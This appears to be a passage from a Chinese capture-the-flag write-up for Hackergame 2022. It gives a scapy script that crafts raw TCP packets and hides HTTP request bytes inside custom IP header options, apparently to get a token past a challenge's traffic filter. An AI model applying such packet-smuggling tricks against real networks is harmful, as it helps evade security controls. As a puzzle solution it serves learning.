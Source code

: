 ![](./img/18-5.png)

这样的 IP header 长度是 40 Byte，把 ihl 置为 10. 顺便终于学会了怎么加 IPOptions

```python
from scapy.all import *
# src_ip = "149.28.128.196"
# dst_ip = "202.38.93.111"
dst_ip = "192.168.23.1"
dst_port = 18082
src_port = random.randint(1024,65535)
# custom_options_data = b'\x47\x45\x54\x20\x2F\x20\x48\x54\x54\x50\x2F\x31\x2E\x31\r\n'
# custom_options_data = b'\xE7\x0F\x04GET / HTTP\x00\x00\x00'
custom_options_data = b'\xE4\x14\x01\x03\x47\x45\x54\x20\x2F\x20\x48\x54\x54\x50\x00\x00\x60\x00\x00\x00'

spk1 = IP(ihl=10, dst = dst_ip, options=IPOption(custom_options_data)) / TCP(dport = dst_port, sport = src_port,  flags="S")  # sport = random.randint(1024,65535)
spk1.show()
res1 = sr1(spk1)
print(res1)

ack1 = res1[TCP].ack
ack2 = res1[TCP].seq + 1
spk2 = IP(ihl=10, dst = dst_ip, options=IPOption(custom_options_data)) / TCP(dport = dst_port, sport = src_port, seq=ack1, ack=ack2, flags="A")
send(spk2)
print("spk2 sent")

http_post_request = b"POST / HTTP/1.1\r\n" \
                    b"Host: 202.38.93.111\r\n" \
                    b"Content-Length: 101\r\n\r\n" \
                    b"YOUR_TOKEN\r\n\r\n"

spk3 = IP(ihl=10, dst = dst_ip, options=IPOption(custom_options_data)) /  TCP(dport = dst_port, sport = src_port, seq=ack1, ack=ack2, flags=24) / http_post_request
res2 = sr1(spk3)
# print("got res2")
print(res2)

```

[hg2022-wp-epilogue]: https://blog.h3a.moe/src/EX00007/#%E5%86%99%E5%9C%A8%E6%9C%80%E5%90%8E